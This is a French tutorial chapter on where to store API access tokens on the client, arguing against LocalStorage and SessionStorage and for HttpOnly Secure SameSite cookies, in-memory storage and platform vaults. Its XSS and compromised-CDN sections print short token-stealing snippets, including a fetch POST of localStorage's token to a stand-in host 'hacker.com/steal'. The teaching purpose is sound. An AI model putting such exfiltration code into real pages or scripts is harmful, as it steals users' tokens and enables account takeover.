

# **8.3 — Sécurisation du stockage côté client (pas de LocalStorage)**

Le stockage côté client des tokens est un sujet critique.
Une mauvaise décision ici peut rendre *toute la sécurité API inutile*.

Le but de ce chapitre :

* comprendre **où** stocker un token,
* comprendre **où ne jamais le stocker**,
* éviter les vols de tokens via XSS, extensions, scripts tiers, etc.,
* découvrir les alternatives sûres selon les plateformes (web, mobile, desktop),
* rendre l’API réellement sécurisée en production.

---

# **8.3.1 — Problème fondamental : le token est un bearer token**

Un JWT ou tout autre access token est un **bearer token**, c’est-à-dire :

> Celui qui le possède peut agir comme l’utilisateur.

Donc si un attaquant récupère le token, il a :

* accès au compte,
* accès aux ressources,
* accès aux opérations autorisées,
* possibilité d’exploiter l’API.

C’est pourquoi **le stockage du token est un enjeu critique.**

---

# **8.3.2 — Le pire endroit pour stocker un token : LocalStorage**

Beaucoup de tutoriels disent :

```javascript
localStorage.setItem("token", jwt)
```

→ **ERREUR CATASTROPHIQUE.**

### Pourquoi LocalStorage est dangereux ?

Parce que tout JavaScript exécuté dans la page peut lire :

```javascript
localStorage.getItem("token")
```

Donc si un attaquant injecte un script (via XSS, extension, CDN compromis, script tiers, pub malveillante…) :

```
<script>
   sendToHacker(localStorage.getItem("token"));
</script>
```

→ token volé instantanément.

### Dangers possibles :

* XSS
* extensions navigateur
* scripts tiers compromis
* supply chain (lib JS modifiée)
* défaut d'isolation entre iframes
* attaques clickjacking avancées

LocalStorage = aucune protection → déconseillé en production.

---

# **8.3.3 — Même problème avec SessionStorage**

SessionStorage est légèrement mieux car il disparaît après fermeture de l’onglet, mais il est **tout aussi accessible** via JavaScript.

Donc :
**SessionStorage = ≈ LocalStorage → dangereux.**

---

# **8.3.4 — Cookies HttpOnly + Secure : la solution la plus sûre sur Web**

Les cookies HttpOnly sont :

* envoyés automatiquement vers l'API (si même domaine),
* protégés contre les accès JavaScript,
* configurables en Secure + SameSite,
* compatibles avec tokens courts + anti-CSRF.

### Cookie sécurisé =

```
Set-Cookie: access_token=...;
HttpOnly;
Secure;
SameSite=Strict;
Path=/;
Max-Age=900;
```

### Avantages :

* Impossible à lire via JavaScript → protection contre XSS
* Transmission automatique
* Fonctionne parfaitement pour access tokens courts
* Protection SameSite contre CSRF

### Inconvénients :

* Nécessite une architecture frontend/backend bien pensée
* Ne marche pas pour les APIs cross-domain sans configuration fine

---

# **8.3.5 — Alternatives sécurisées selon les plateformes**

---

## **1) Web (navigateur)**

✔ Cookies HttpOnly + Secure + SameSite
✔ Stockage en mémoire volatile (variable JS en RAM)
✖ Pas de LocalStorage
✖ Pas de SessionStorage

---

## **2) Applications mobiles**

Android :

* ✔ Secure Enclave / KeyStore
* ✔ stockage chiffré biométrique
* ✖ shared_preferences en clair

iOS :

* ✔ Keychain
* ✔ Secure Enclave
* ✖ UserDefaults

---

## **3) Applications desktop**

* ✔ stockage chiffré du système (DPAPI Windows, Keychain macOS)
* ✔ coffre sécurisé logiciel
* ✖ fichiers texte
* ✖ base SQLite non chiffrée

---

## **4) Machine-to-machine (serveurs)**

* ✔ variables d’environnement
* ✔ fichiers protégés en lecture (permissions strictes)
* ✔ vault (HashiCorp Vault, AWS Secrets Manager…)
* ✖ fichiers partagés
* ✖ logs accessibles

---

# **8.3.6 — Stockage en mémoire volatile (Web SPA)**

Une autre approche consiste à ne **jamais stocker le token sur disque**, mais seulement :

* dans une variable JS,
* en mémoire,
* dans un gestionnaire d’état (Redux, Zustand…),
* disparaissant au refresh.

### Avantage :

* Protégé contre XSS *persistant*
* Token effacé à chaque rechargement → plus sûr

### Inconvénient :

* L’utilisateur doit se reconnecter après refresh

Idéal pour applications hautement sensibles.

---

# **8.3.7 — Pourquoi éviter LocalStorage est vital (schéma)**



---

# **8.3.8 — Leakage par scripts tiers**

Votre frontend charge :

```
<script src="https://cdn.jsdelivr.net/library.js"></script>
```

Si le CDN est compromis → l’attaquant exécute :

```javascript
fetch("https://hacker.com/steal", {
  method: "POST",
  body: localStorage.getItem("token")
});
```

→ vol massif de tokens client.

---

# **8.3.9 — Est-il possible de sécuriser LocalStorage ?**

Réponse courte : **NON.**

Même avec :

* chiffrage côté client,
* obfuscation,
* WebCrypto…

Un attaquant peut toujours :

* voler la clé,
* lire le JS,
* exécuter son propre JS,
* intercepter le code exécuté.

LocalStorage n’offre aucune isolation de sécurité.

---

# **8.3.10 — Cookies HttpOnly ne sont pas parfaits**

Les cookies HttpOnly protègent contre XSS, mais pas contre :

* CSRF (si SameSite mal configuré)
* vols de session sur domaine partagé
* attaques via sous-domaines si mal configuré

### Recommandations :

* `SameSite=Strict` → le plus sûr
* `Path=/api` → réduit surface
* `Secure` → obligatoire en HTTPS
* `Domain` → config minimale

---

# **8.3.11 — Recommandation générale (résumé)**

| Plateforme | Solution recommandée                | Interdit                     |
| ---------- | ----------------------------------- | ---------------------------- |
| Web SPA    | Cookies HttpOnly OU stockage en RAM | LocalStorage, SessionStorage |
| Mobile     | Keychain / Keystore                 | stockage en clair            |
| Desktop    | Stockage chiffré système            | fichier local                |
| Serveur    | Vault / env vars                    | dépôt git, logs              |

---

# **8.3.12 — Résumé du sous-chapitre**

* Le token JWT est un bearer token → vol = compromission.
* LocalStorage est vulnérable → à proscrire en production.
* Cookies HttpOnly + Secure + SameSite = solution la plus sûre pour le Web.
* Stockage en mémoire RAM est une alternative encore plus sûre (mais moins pratique).
* Mobiles et desktops doivent utiliser les coffres sécurisés natifs.
* Serveurs doivent stocker les tokens dans un vault, jamais dans les fichiers de code.
* Le choix du stockage influe directement sur la sécurité globale de l’API.
